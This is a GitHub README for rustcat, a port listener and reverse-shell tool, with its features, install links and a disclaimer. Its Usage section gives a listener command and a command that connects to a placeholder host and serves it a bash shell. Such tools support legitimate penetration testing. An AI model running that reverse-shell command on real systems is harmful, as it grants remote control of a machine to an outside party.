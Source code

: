 <div align="center">
      <h1>rustcat - The modern port listener and reverse shell </h1>
</div>

<p align="center">
	<img alt="GitHub All Releases" src="https://img.shields.io/github/downloads/robiot/rustcat/total?label=GitHub%20Downloads" />
  	<a href="https://aur.archlinux.org/packages/rustcat"><img alt="AUR version" src="https://img.shields.io/aur/version/rustcat" /></a>
  	<img alt="GitHub Issues" src="https://img.shields.io/github/issues/robiot/rustcat.svg" />
  	<img alt="GitHub Contributors" src="https://img.shields.io/github/contributors/robiot/rustcat" /></a>
</p>

## What is Rustcat
Rustcat is an easy to use port listener and reverse shell for Linux, MacOS, and Windows aimed to be easy to use and accessible.

![image](https://user-images.githubusercontent.com/68228472/184684103-87bf3af8-0607-4789-b3a2-09ce67efce55.jpg)

## Modes
- Listen mode (listen);
- Reverse shell mode (connect);

## Features
- Command history & Tab completion (Interactive mode);
- CTRL-C blocking;
- Colors;
- Everything easy;

## Installing
Check out the [Installation Guide](https://github.com/robiot/rustcat/wiki/Installation-Guide). Or if you want to have it portable, check out the [latest release](https://github.com/robiot/rustcat/releases/latest)

## Usage
The most basic and useful example to start listening on a port would be (you can even run vim inside rustcat with this):
```
rcat listen -ib 55600
```
and to connect:
```
rcat connect -s bash the.0.0.ip 55600
```

For some more basic usage, check [here](https://github.com/robiot/rustcat/wiki/Basic-Usage)

## Disclaimer
This tool may be used for educational purposes only. Users take full responsibility for any actions performed using this tool. The author accepts no liability for damage caused by this tool. If these terms are not acceptable to you, then do not use this tool.
